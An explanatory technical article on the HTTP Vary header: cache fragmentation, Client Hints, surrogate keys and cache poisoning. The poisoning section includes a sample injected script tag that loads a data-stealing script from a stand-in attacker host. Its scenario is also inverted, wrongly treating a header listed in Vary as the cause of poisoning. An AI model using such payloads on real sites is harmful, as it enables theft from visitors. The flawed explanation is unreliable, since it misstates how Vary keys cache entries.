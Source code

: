 **Vary Header Implementation** transforms content negotiation into actionable caching logic through precise syntax and storage rules. At its core, `Vary` lists request headers that influence the response content. A CDN receiving `Vary: Accept-Language, User-Agent` won’t store a single response for `/product/123`; instead, it creates distinct cache entries for each observed combination of language preferences and device types. The **header field combination logic** follows multiplicative rules. If `Accept-Language` has 5 common values (en, es, fr, de, ja) and `User-Agent` has 100 common variants (iOS Chrome, Android Firefox, etc.), a cache might theoretically store 500 permutations per URL. This **cache fragmentation risk** is the header’s Achilles’ heel. Akamai’s 2018 case study on a travel booking site revealed 92% cache-miss rates on high-traffic pages due to overly broad `Vary: User-Agent, Accept-Encoding`, crippling origin servers with redundant requests. The **Accept-Encoding: gzip special case** offers a critical optimization. Since most clients support gzip, and proxies can often recompress content dynamically, RFC 7231 permits caches to treat `Accept-Encoding` variations equivalently if the cache can regenerate the encoding. Thus, `Vary: Accept-Encoding` typically stores only two entries: gzipped and uncompressed. Cloudflare exploits this by normalizing `Accept-Encoding` values (e.g., treating `gzip, deflate, br` as identical to `gzip`) unless `Vary` explicitly lists other headers, dramatically reducing fragmentation for compressed assets. However, this optimization fails for Brotli (`br`) compression, which requires explicit negotiation, illustrating how implementation quirks demand vigilance.

**Key Challenges and Solutions** reveal the operational realities of deploying `Vary` at scale. The **Vary: User-Agent anti-pattern** exemplifies poor practice. Mobile detection via user-agent strings creates extreme fragmentation due to constant browser updates and device proliferation. A 2020 analysis of 10,000 high-traffic sites found pages using `Vary: User-Agent` suffered 3–5× higher latency than those using device-agnostic responsive design. Solutions include:
1.  **Client Hints adoption:** Modern browsers send headers like `Sec-CH-UA-Mobile` (a simple `?1` or `?0` for mobile detection) or `Sec-CH-UA-Platform`. These low-cardinality values make `Vary: Sec-CH-UA-Mobile` highly cache-efficient. Sites like Pinterest migrated to Client Hints, reducing cache keys per URL from thousands to two.
2.  **Cookie-based profiling:** Storing device class (e.g., `device=desktop`) in a cookie and using `Vary: Cookie` – though this prevents caching for unauthenticated users.
3.  **URL differentiation:** Simple but effective: serving mobile views from `/m/product/123` eliminates `Vary` complexity entirely.

**Cache poisoning via header injection** poses serious security risks. Attackers can manipulate rarely used request headers to create malicious cache entries. Imagine a header `X-Forwarded-Host` influencing response content. If `Vary: X-Forwarded-Host` exists, an attacker could request `/login?user=admin` with `X-Forwarded-Host: attacker.com`, poisoning the cache with a response containing `<script src="https://attacker.com/steal.js">`. Subsequent victims requesting `/login?user=admin` receive the poisoned response. The 2017 vulnerabilities in Shopify’s caching infrastructure stemmed partly from inadequate `Vary` validation. Mitigation involves:
-   **Auditing all headers listed in `Vary`:** Ensure only headers under server control (e.g., `Accept-Language`) or sanitized headers influence content.
-   **CDN safeguards:** Fastly VCL scripts can normalize or ignore suspicious headers before cache key generation.
-   **Strict CORS policies:** Preventing arbitrary header injection via cross-origin requests.

**CDN surrogate key alternatives** offer a powerful escape hatch from `Vary` fragmentation. Instead of relying solely on header-driven cache keys, services like Fastly or Cloudflare allow tagging responses with custom keys (e.g., `Surrogate-Key: product-123 en desktop`). When a product price updates, a single purge request targeting `product-123` invalidates *all* language and device variants simultaneously. The New York Times uses this for article pages, associating keys with article IDs and purging globally within milliseconds of publication. This approach decouples invalidation logic from request headers, maintaining fine-grained cache control while avoiding combinatorial explosion. WordPress plugins like "Cache Enabler" implement this pattern, storing normalized variations (grouping similar user-agents) and purging via keys upon content changes.

